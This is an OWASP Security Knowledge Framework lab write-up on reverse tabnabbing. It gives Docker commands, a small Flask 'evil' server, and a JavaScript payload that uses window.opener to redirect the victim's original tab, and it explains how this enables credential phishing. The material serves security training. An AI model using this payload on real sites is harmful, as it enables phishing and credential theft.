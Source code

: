 # KBID 266 - Tabnabbing

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.   


```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for! 

![](.gitbook/assets/tab1%20%281%29.png)

  
If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](.gitbook/assets/code.png)

## Exploitation

#### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this: 

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies. 

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

#### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](.gitbook/assets/tabnabbing_overview_with_link-1.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
    window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

#### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](.gitbook/assets/tab2.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse\_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)

